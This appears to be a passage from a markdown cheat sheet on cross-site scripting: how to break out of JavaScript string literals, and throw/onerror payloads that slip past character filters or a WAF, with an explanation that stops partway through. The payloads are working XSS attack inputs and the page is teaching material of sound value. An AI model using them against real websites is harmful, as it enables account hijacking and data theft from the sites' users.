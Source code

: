 ### Breaking out of a JavaScript string

In cases where the XSS context is inside a quoted string literal, it is often possible to break out of the string and execute JavaScript directly. It is essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing.

Some useful ways of breaking out of a string literal are:

```
'-alert(document.domain)-'
';alert(document.domain)//
</javascript>
```
### bypass restricted char

Some websites make XSS more difficult by restricting which characters you are allowed to use. This can be on the website level or by deploying a WAF that prevents your requests from ever reaching the website.

One way of doing this is to use the throw statement with an exception handler:

- onerror is trigger by a exception and the throw statement allows you to create a custom exception containing an expression which is sent to the onerror handler.

some payloads:

```js
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>{onerror=eval}throw'=alert\x281337\x29'</script>
// The string sent to eval is "Uncaught=alert(1337)"

// this payload work inside a funciont by giving it dead parameters
<script>, x=x=>{throw onerror=alert,1337},toString=x,window+''</script>
// this one got explained under
```

:warning: If ` ` is blocked try tabulation or `/**/`

#### Explaination:

`<script>, x=x=>{throw onerror=alert,1337},toString=x,window+''</script>`

:warning: This payload work by giving dead arg to a function, because dead arg execute expression:

```js
let cal = (a, b) => {
    return a +b;
}
cal(1,3) // equal 4
cal(1,3,3,6,3) // still equal 4
let my_var = 5
cal(1,3,3,my_var=10) // still return 4
console.log(my_var) //print 10
```

First : `throw onerror=alert,1337`

